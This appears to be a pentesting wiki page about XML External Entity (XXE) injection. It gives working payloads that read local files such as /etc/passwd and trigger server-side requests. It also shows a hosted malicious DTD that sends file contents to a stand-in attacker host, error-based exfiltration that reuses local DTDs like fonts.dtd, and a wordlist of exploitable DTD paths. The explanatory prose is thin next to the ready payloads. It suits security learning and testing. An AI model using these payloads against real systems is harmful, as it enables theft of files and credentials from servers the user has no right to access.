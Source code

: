 ```yaml
---
description: Injecting Entities into XML data to read local files and exfiltrate data
---
```


# XML External Entities (XXE)

{% embed url="https://portswigger.net/web-security/xxe" %}
Source of most examples on this page
{% endembed %}

## XML

Extensible Markup Language (XML) is a common data format for defining structures of data that can be nested. The basics are very simple, HTML is basically XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

It also allows variables called "entities" to be defined and used throughout the document. These are defined in the Document Type Definition (DTD) using a `<!ENTITY` tag. After that, they can be used anywhere in the document using the `&[name];` syntax:

{% code title="Example of XML Entities" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [ <!ENTITY something "381"> ]>
<stockCheck><productId>&something;</productId></stockCheck>
```
{% endcode %}

## External Entities

This becomes more dangerous when we introduce **External Entities**. These can reference local files or remote URLs:

{% code title="Example of a local file" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

{% code title="Example of a remote URL" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1/endpoint?key=value"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

These become exploitable when an attacker can inject such entities into a document that will be parsed by the server, and then the result is returned in the response. You could easily read a local file like this, or make any GET request by the server (SSRF).&#x20;

## Blind XXE

In some cases, the document you send to the server is not directly returned back to you, only parsed by the server. All hope is not lost, as there are still various different techniques to make it exploitable.&#x20;

These can be easily detected with out-of-band detection. Tools like [`interactsh-client`](https://github.com/projectdiscovery/interactsh) can set up a domain that listens for DNS and HTTP requests, and you can send this domain as an external entity to see if a callback happens:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### External DTDs

The goal of most XXE injections is to exfiltrate a local file. Using entities, we can load a file into a variable, and we can make a DNS/HTTP request to any fixed URL. But we can combine the two with External DTDs, which allow the **nesting** of entities using special "parameter entities". You can recognize these by the `%` percentage sign during definition and are used with the `%[name];` syntax.&#x20;

This allows us to define a `file` entity, and then put this entity into the URL of another entity. Once these are used anywhere in the document, the contents of the file are put in the URL and the request is made:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
{% endcode %}

The catch is that External DTDs need to be, well, **external**. This means they cannot be inside of your initial payload and must be fetched from a local file or a remote URL. An attacker can host the file above, and then create the XXE injection attack with the following payload:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Error Based

A server might be hardened so that it cannot make random outgoing connections to your attacker's website, either to fetch the External DTD or to exfiltrate the file contents. In this case, two new techniques can be combined to still exfiltrate local files.&#x20;

An application might return details about an error when something goes wrong during the parsing of the XML document. One such error would be if it cannot find the local file specified in the entity. We can abuse this by defining a `%file;` entity again, and then using the file contents in the **path** of another entity, showing those contents in an error message:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
{% endcode %}

{% code title="Example response" %}
```java
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
{% endcode %}

Now you might be thinking, how do we load that external entity if outgoing connections are blocked? And this is where the second technique comes in.&#x20;

On many systems, there are **existing** XML **DTDs** that can be repurposed by us attackers to do something similar to what you see above. One simple example is the \
`/usr/share/xml/fontconfig/fonts.dtd`\
``file with the following content:

{% code title="fonts.dtd" %}
```xml
<!ENTITY % expr 'int|double|string|matrix|bool|charset|langset
      |name|const
      |or|and|eq|not_eq|less|less_eq|more|more_eq|contains|not_contains
      |plus|minus|times|divide|not|if|floor|ceil|round|trunc'>
[...]
<!ELEMENT test (%expr;)*>
```
{% endcode %}

The danger here is that an attacker can define this `%expr;` variable **before** it is defined here, and only the first definition will be used. From here, the attacker can escape the context using `)>` to add their own entities as if it were an external DTD that they control:

```xml
<!DOCTYPE message [
    <!-- Define the file path -->
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!-- Overwrite the %expr; entity to inject our error-based entities -->
    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///FILE_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    <!-- Load the local DTD now that it is set up -->
    %local_dtd;
]>
<message></message>
```

The payload needed will depend on what variables you can overwrite, and the context they are in. Template payloads on 5 different example contexts can be found here:

{% embed url="https://github.com/GoSecure/dtd-finder/blob/2c69ee0be7ab62dd470f0057799577d887782ead/src/main/kotlin/EntityTester.kt#L139-L223" %}
5 different context escapes using local DTDs
{% endembed %}

Here are a few more paths where you might find an existing exploitable DTD:

<details>

<summary>Wordlist (<a href="https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/">source</a>)</summary>

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

</details>

This technique will allow you to again get the file contents in the error message, without needing any outgoing connection to your server.&#x20;

